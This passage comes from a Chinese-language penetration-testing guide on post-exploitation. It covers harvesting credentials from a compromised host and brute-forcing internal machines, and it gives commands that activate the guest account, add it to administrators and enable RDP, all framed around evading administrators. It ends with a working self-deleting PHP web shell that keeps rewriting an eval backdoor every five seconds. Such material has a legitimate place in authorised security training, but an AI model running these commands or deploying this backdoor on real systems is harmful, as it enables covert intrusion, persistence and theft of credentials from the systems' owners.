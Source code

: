 当我们在获取了外网服务器的权限，进入该系统后，我们要想尽办法从该服务器上查找到我们想要的信息。

对于windows主机，我们应该多去翻翻目录，或许能有很多意想不到的结果。很多人习惯把账号密码等容易忘的东西存放在备忘录中，或者是桌面上。我们还可以查找数据库的连接文件，查看数据库的连接账号密码等敏感信息。当我们获得了windows主机的账号密码，或者是自己创建了新用户后，我们为了不被网站管理员发现和不破坏服务器。我们尽量不要使用远程桌面。因为使用远程桌面动静比较大，如果此时服务器管理员也在登录，而你此时通过远程桌面登录的话，会将管理员挤掉，而你也将很快的被管理员踢掉。对于实在是要远程桌面登录的情况的话，我们尽量不要新建一个用户进行登录。我们可以激活 guest 用户，然后将其加入 administrators 组里面，用 guest 用户身份登录。在RDP远程登录后，我们可以查看其他用户桌面上和其他目录有哪些软件，我们要找的目标有以下。

- FTP相关的软件
- 数据库相关的软件
- 打开浏览器，查看历史记录，查看某些网站是否保存有用户密码。利用工具查看浏览器保存的密码

从该主机上找到的账号密码，我们可以做一个字典，在对内网其他机器进行爆破的时候，很有可能是同密码。

```bash

net user  guest  /active:yes                      #激活guest用户
net localgroup  administrators  guest  /add       #将guest用户添加到
net user guest    密码                            #更改guest用户密码
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f                          #开启3389端口

```

著作权归https://pdai.tech所有。 链接：https://pdai.tech/md/develop/security/dev-security-y-pentest-workflow.html

对于Linux主机，我们可以查看开放的端口号，开放的服务，与其建立连接的内网主机。查看目录，查找网站数据库连接密码。总之，就是尽可能的多查找一些账号密码，这对于内网的账号爆破非常有用。

在搭建了隧道可以通内网后，我们首先就需要对内网进行资产发现了。但是对于内网存活网段的判断是一个大问题。内网很有可能同时存在 10.0.0.0/8、172.16.0.0/16、192.168.0.0/24 网段。这就需要我们用扫描器对其进行探测了。通过代理进行内网扫描不建议使用nmap。如果是在本地主机通过代理扫描，可以图形化界面的话，可以使用 RouterScan 、御剑高速TCP全端口扫描器、IIS_Scanner。但是注意线程调低一点，不然代理很容易崩了。如果使用命令行扫描器的话，可以使用S扫描器。在扫描了内网资产和端口开放情况后，对于445端口，就可以打一波MS17_010。但是注意通过代理打445，和之前的是不一样的。传送门——> 内网渗透之MS17-010 。对于3389端口，可以打一波CVE-2019-0708，传送门——> CVE-2019-0708 远程桌面漏洞复现 。对于1433/3306/6379等端口，可以尝试爆破，利用之前收集到的账号密码成功率更高哦。

### 2.7 权限维持

在拿到目标主机的权限后，很有可能当时我们并不能获取到想要的东西，需要进行长期的潜伏，特别是在内网渗透中，需要进行长期的信息收集。这时，权限维持就很重要了。我们需要维持住获得的现有权限。

#### 2.7.1 Web后门

1：隐藏后门文件(将文件设置为隐藏)

2：不死马，该脚本每5秒向服务器创建test.php，并写入一句话免杀木马。结合attrib命令隐藏文件更好地建立后门。

```php

<?php
    set_time_limit(0);//程序执行时间
    ignore_user_abort(1);//关掉终端后脚本仍然运行
    unlink(__FILE__);//文件完整名
    while(1){
        file_put_contents('test.php','<?php $a=array($_REQUEST["x"]=>"3");
        $b=array_keys($a)[0];
        eval($b);?>');
        sleep(5);
    }
?>
  
```
